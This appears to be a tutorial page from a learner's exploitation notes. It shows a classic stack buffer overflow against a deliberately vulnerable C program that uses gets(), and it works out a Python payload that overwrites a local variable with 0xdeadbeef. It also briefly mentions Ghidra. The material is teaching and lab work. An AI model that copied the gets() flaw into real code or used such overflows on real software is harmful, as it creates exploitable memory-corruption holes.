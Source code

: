 # 🫁 02-overwriting\_stack\_variables\_part2

So let's run the binary and try to test out the overflow

<figure><img src="../../../../.gitbook/assets/image (1199).png" alt=""><figcaption></figcaption></figure>

let's unhex the output value to understand what happended

<figure><img src="../../../../.gitbook/assets/image (1200).png" alt=""><figcaption></figcaption></figure>

let's look at the source code to see what happened

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void do_input(){
    int key = 0x12345678;
    char buffer[32];
    printf("yes? ");
    fflush(stdout);
    gets(buffer);
    if(key == 0xdeadbeef){
        printf("good job!!\n");
        printf("%04x\n", key);
        fflush(stdout);
    }
    else{
        printf("%04x\n", key);
        printf("...\n");
        fflush(stdout);
    }
}

int main(int argc, char* argv[]){
    do_input();
    return 0;
}
```

we see that we have a 32 size buffer and the key value needs to be equal to 0xdeadbeef but there's no input way of changing this value except of overwriting this

<figure><img src="../../../../.gitbook/assets/image (1201).png" alt=""><figcaption></figcaption></figure>

```
python2 -c 'print 32 * "A" + "deadbeef"'
```

So i tried overflowing the 32 size buffer with the value deadbeef but it only took the first 4 chars and reversed them

so we do the same thing but reverse the 2 dead to daed ->

<figure><img src="../../../../.gitbook/assets/image (1202).png" alt=""><figcaption></figcaption></figure>

ok now is going to be the tricky part, we are going to craft our payload and inject it in overwrite:

```
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./overwrite < payload
```

<figure><img src="../../../../.gitbook/assets/image (1203).png" alt=""><figcaption></figcaption></figure>

**`"\xef\xbe\xad\xde"`**:

* This is a string containing four specific byte values, represented in hexadecimal notation. Each `\xHH` sequence represents a single byte, where `HH` is the hexadecimal value of the byte.
* In this case, `"\xef\xbe\xad\xde"` represents the bytes with hexadecimal values `EF`, `BE`, `AD`, and `DE`.

The last four characters are non-printable and represent the bytes `EF`, `BE`, `AD`, and `DE`.

and since the string is reversed it overflows with deadbeef and validates the challenge

Now let's open up ghidra&#x20;

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can start by changing some of the values to look more like what we had in our C program:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
